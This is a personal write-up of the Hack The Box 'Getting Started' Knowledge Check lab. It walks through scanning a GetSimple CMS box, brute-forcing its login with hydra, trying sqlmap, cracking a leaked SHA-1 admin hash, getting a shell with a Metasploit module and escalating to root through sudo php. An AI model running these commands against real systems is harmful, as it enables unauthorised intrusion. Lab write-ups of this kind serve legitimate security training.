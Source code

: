 ```yaml
---
title: "HTB Getting Started: Knowledge Check Writeup"
date: 2023-05-01T15:26:31+02:00
draft: false
toc: false
images:
tags: 
  - htb
  - writeup
---
```


**These are my notes from getting into the "Knowledge Test" machine, from the "Getting Started" academy module in Hack The Box.**

# Target info
- Target ip: 10.129.116.132

Did an nmap scan `nmap -sV --open -A 10.129.116.132 > initial_scan.txt`
# Ports
```nmap-scan
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Welcome to GetSimple! - gettingstarted
|_http-robots.txt: 1 disallowed entry 
|_/admin/
```

Checked the website with `Crtl + u` on Firefox. Found the host `gettingstarted.htb`. Added it to `/etc/hosts`.
It also says that the website uses the GetSimple CMS.
/admin/ seems interesting. Let's check it out.
There is a login portal for admins.
Performing a gobuster scan. Found the following interesting paths:
```gobuster-scan
/plugins
/data
/backups
```

Found a plugin `InnovationPlugin` in `/plugins`. Let's search for vulns.
Nothing for the plugin, but found something, [this exploit](https://www.exploit-db.com/exploits/40008) for the Getsimple CMS.
We don't know the version of the plugin, so let's see if it's vulnerable and try to get a reverse shell.
So, we can use it, after we login to the admin page. We have our way in, now we need to find a way to get the admin password, or login to the admin panel in some other way. I'll try hydra, and see if there is no blacklisting in place.
Let's build the command. First let's get rockyou.
The request for login has the format:
`http://gettingstarted.htb/admin/index.php?userid=username&pwd=password&submitted=Login`
Let's try
`hydra -L ~/gs/user-dict.txt -P ~/rockyou/rockyou.txt gettingstarted.htb http-form-post '/admin/index.php:userid=^USER^&pwd=^PASS^&submitted=Login:F=Login failed. Please double check'`
A lof of false positives, not sure why. Probably overloaded the server, needed to restart the machine. The found passwords don't seem to work.

Trying SQLMAP with a request copied from burp.
`sqlmap -r gs/login_r.txt -p pwd --risk 3 --level 5 --batch`
SQMap scan complete, doesn't seem to be injectable. Gonna retry with the user param.
`sqlmap -r gs/login_r.txt -p userid --risk 3 --level 5 --batch`
SQLMAP failed here, so need to search for different options for entry.
Found admin credentials while going trough the /data subfolder in:
`http://gettingstarted.htb/data/users/admin.xml`
No idea why I didn't try this sooner. It's always the easy answer, isn't it?
```xml
<item>
	<USR>admin</USR>
	<NAME/>
	<PWD>d033e22ae348aeb5660fc2140aec35850c4da997</PWD>
	<EMAIL>admin@gettingstarted.com</EMAIL>
	<HTMLEDITOR>1</HTMLEDITOR>
	<TIMEZONE/>
	<LANG>en_US</LANG>
</item>
```
So we got the credential pair of:
`admin:d033e22ae348aeb5660fc2140aec35850c4da997`
The password in this format doesn't work. It's probably hashed, or encoded. Let's try decoding it first with cyberchef, and if that doesn't work, we try hashcat.
Decoding in cyberchef doesn't seem to work. Let's try to identify the type of hash then. 
`hashidentifier d033e22ae348aeb5660fc2140aec35850c4da997`
gives the following results
```hashindentifier-results
Possible Hashs:
[+] SHA-1
[+] MySQL5 - SHA-1(SHA-1($pass))
```
Ok. I would guess it's SHA1 or MySQL5 SHA-1. Let's try to crack both in rockyou with hashcat and see how it goes.
`hashcat -m 100 -a 3 -o outhash.txt d033e22ae348aeb5660fc2140aec35850c4da997`
It was indeed SHA1. The cracked hash is `admin`. Admin. Really? I could've checked that. xD
Let's use the exploit we found earlier to gain a shell.
Seems like the button is broken, due to Flash Player getting discontinued. Let's try to find vulns in metasploit. Found `exploit/multi/http/getsimplecms_unauth_code_exec`.
Let's try that.
Okay, the exploit worked, I got a shell. Upgraded it with
`python3 -c 'import pty; pty.spawn("/bin/bash")'`
We are logged in as the `www-data` user. We have enough privelage, to get the user flag from `/home/mrb3n/user.txt`, so we cat it out. Nice.

# Privelage Escalation
Let's try `LinEnum.sh` first, since this is what HTB reccomended.
But before that, it would be nice to check if we can get an SSH session going.
We cannot. Before even uploading the script, I checked for what we can do as root without a password, with `sudo -l`.
Bingo! We can run `/usr/bin/php` from the current user. Let's try to leverage that.
GTFOBins shows us that we can use `sudo php -r "system('/bin/bash');"` to get sudo access. Let's try that.
And it worked! We cat the flag:
`cat /root/root.txt`

# Summary
## Path taken
1. Recon
2. Use metasploit to get a shell
3. Get the user flag
4. Use PHP to escalate the privelages to root
5. Get the root flag
## Conclusions
Should probably see everything I can with the browser and Burp, before moving on to automated tools. Check every potential file of interest.

